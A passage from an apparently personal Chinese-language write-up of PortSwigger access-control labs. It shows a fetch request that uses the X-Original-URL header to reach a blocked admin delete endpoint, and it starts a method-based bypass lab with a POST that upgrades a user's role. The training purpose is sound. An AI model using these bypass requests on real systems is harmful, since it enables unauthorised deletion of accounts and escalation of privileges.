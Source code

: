 看到

```html
<section>
  <h1>Users</h1>
  <div>
    <span>wiener - </span>
    <a href="/admin/delete?username=wiener">Delete</a>
  </div>
  <div>
    <span>carlos - </span>
    <a href="/admin/delete?username=carlos">Delete</a>
  </div>
</section>
```

嘗試

```js
fetch(`${location.origin}?username=carlos`, {
  headers: {
    "X-Original-URL": "/admin/delete",
  },
});
```

測起來 `X-Original-URL` 沒辦法傳遞 querystring，所以把 querystring 放在 `fetch` 的 URL

另外，第一次看到 `X-Original-URL` 這個酷東西，感覺是 Web Server 或是各種中間層會加的 Non-Standard-HTTP-Header，所以前端工程師比較少看到，但後端 Application Server 在讀 HTTP-Header 時，可能就會有這個值

我後來查了一下，在 Github 有看到一個蠻有趣的 [repo](https://github.com/sting8k/BurpSuite_403Bypasser)，裡面有提供一些可以 Bypass 403 的 Non-Standard-HTTP-Headers

## Lab: Method-based access control can be circumvented

| Dimension | Description                                                                                                        |
| --------- | ------------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/access-control#broken-access-control-resulting-from-platform-misconfiguration |
| Lab       | https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented            |

用 admin 帳密登入後，可以在 `/admin` 頁面看到 Upgrade User 的功能，背後是戳

```js
fetch(`${location.origin}/admin-roles`, {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: "username=carlos&action=upgrade",
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```
